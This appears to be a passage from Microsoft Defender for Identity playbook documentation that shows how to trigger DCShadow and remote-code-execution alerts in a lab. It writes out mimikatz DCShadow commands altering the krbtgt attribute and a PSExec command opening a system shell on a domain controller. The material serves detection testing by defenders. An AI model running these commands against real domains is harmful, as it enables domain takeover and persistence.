 From a command line on a workstation, run with a domain admin account:  

```cmd
mimikatz # privilege::debug  
mimikatz # lsadump::dcshadow /object:krbtgt /attribute=ntPwdHistory /value:0000000000 
mimikatz # lsadump::dcshadow /push  
```

Tools available from: <https://github.com/gentilkiwi/mimikatz/releases>  

Detail in the alert:  

![Suspected DCShadow attack (domain controller promotion) & (domain controller replication request) alert details.](media/playbooks/dcshadow-details.png)  

## Remote code execution attempts

For details about this alert, see [Remote code execution attempt (external ID 2019)](domain-dominance-alerts.md#remote-code-execution-attempt-external-id-2019).

Defender for Identity detects PSexec, Remote WMI, and PowerShell connections from a client machine to a domain controller. Attackers can execute remote commands on your domain controller or Active Directory Federation Services (AD FS) server to create persistence, collect data or perform a denial of service (DOS).

From a command line on a workstation, run with a domain admin account:  

```cmd
PSExec.exe -s -i \\msdemo-dc01 powershell.exe  
```
